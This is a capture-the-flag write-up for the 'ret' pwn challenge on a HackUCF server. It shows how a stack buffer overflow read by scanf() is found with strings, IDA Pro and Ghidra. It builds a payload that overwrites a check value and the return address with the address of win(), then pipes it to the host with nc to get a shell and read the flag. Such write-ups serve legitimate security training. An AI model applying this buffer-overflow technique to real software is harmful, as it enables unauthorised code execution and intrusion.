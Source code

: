 # ret
**Category:** Pwn

**Points:** 50

**Description:**

Author: kablaa

nc ctf.hackucf.org 9003

> **Files:** ret, libpwnableharness32.so

## Write-up
When run, the code waits for user input, then prints a message:
```
> nc ctf.hackucf.org 9003
hello
you suck!

```
There was no code provided, so I started by running `strings` over the executable:
```
...
[^_]
you Win!
/bin/sh
you suck!
ctf_ret
;*2$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.9) 5.4.0 20160609
crtstuff.c
__JCR_LIST__
deregister_tm_clones
__do_global_dtors_aux
completed.7209
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
ret.c
__FRAME_END__
__JCR_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
__x86.get_pc_thunk.bx
_edata
__data_start
puts@@GLIBC_2.0
system@@GLIBC_2.0
__gmon_start__
exit@@GLIBC_2.0
__dso_handle
handle_connection
_IO_stdin_used
...
```
You can see there is a `you Win!` message which is where we need to get to, the `you suck!` message, and the `handle_connection` function which will do the work. I opened the code in IDA Pro to look at that function. It just calls another function named `func`:

![Handle connection function](handle_connection.png)

So I looked at the `func` function:

![Func function](func.png)

Looking at the `func` function we can see a 4-byte (integer) variable set to 0 (`ebp+var_C`), a call to `scanf()` and a comparison of the variable `ebp+var_C` to `0xdeadbeef`. This means we need to overwrite the integer variable with the value for `0xdeadbeef`. However, this won't be enough. The jump after the comparison doesn't jump to the `win()` function, but instead just returns. This means we also need to overwrite the return pointer on the stack to point to the `win()` function.

I had a look at the decompiled code in Ghidra to confirm what I saw in IDA Pro:

![Decompiled func function](func_c.png)

Now we can see we have a 64-byte `buffer`, and our integer `value`. Lets start debugging and look at the stack.

First I create a file containing just 64 `A` characters to help us see our stack layout:
```
> python -c "print('A'*64)" > inp.txt
```
This file can now be used in the **Process options** of the debugger to send the characters to the running process. Now lets run it and look at what's happening.

If we look at the `handle_connection` function, and where it calls `func`, we can see that the next statement after the call is at `0x08048696`:

![Handle connection function addresses](handle_connection_return.png)

We can see this address on the stack at `0xffb6e31C`

![Stack return address](stack_return_address.png)

If we hover the mouse over `ebp+var_C`, we can see the address of that variable on the stack is `0xffb6e30c`:

![ebp+var_C address](ebp_var_c_location.png)

and if we look at that on the stack we can see it has been set to zero:

![Value on stack](value_on_stack.png)

If we hover the mouse over `ebp+var_4C`, we can see the address of the buffer on the stack is `0xffb6e2cc`:

![ebp+var_4C address](ebp_var_4c_location.png)

and, once we've passed the `scanf()` call, we can see the buffer filled with `A` characters on the stack:

![Buffer on stack](buffer_on_stack.png)

As a first try we can put 64 `A` characters, followed by `0xdeadbeef`, followed by 12 `A` characters, followed by the address of the `win()` function. This will overwrite some other parts of the stack, which may cause problems, but we can try it.

Looking at the code, the address we need for the `win()` function is `0x0804861B`:

![Win function](win_func.png)

We can also see that calling the `win()` function will give us a shell on the server, so we can `cat` the flag file.

 We need to remember that both `0xdeadbeef` and the `win()` address need to be reversed on the stack. However, our return address has the same first four bytes as our `win()` address, so we can just change 1 byte to set it. Our `inp.txt` file is now created with:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B')" > inp.txt

Only changing the single value in the address didn't work because `scanf()` adds a `NULL` terminator on the end of the input string, overwriting the next byte with `0x00`. Therefore, I tried again with the full address:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" > inp.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" > inp.txt

This works in the debugger, so now we can test it on the server:
```
> python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" | nc ctf.hackucf.org 9003

This didn't work because I forgot to use `cat` to ensure we get chance to interact with the shell (see [Gimme Shellcode](../Scripting_GimmeShellcode/README.md)). I now tried:
```
> (python -c "print('A'*64 + '\xef\xbe\xad\xde' + 'A'*12 + '\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003
you Win!

ls
flag.txt
ret
cat flag.txt
flag{<flag was here>}
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use:
(python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xef\xbe\xad\xde' + b'A'*12 + b'\x1B\x86\x04\x08')" ; cat) | nc ctf.hackucf.org 9003

After the `you Win!` message I had a shell and was able to type `ls` and then `cat flag.txt` to get the flag!
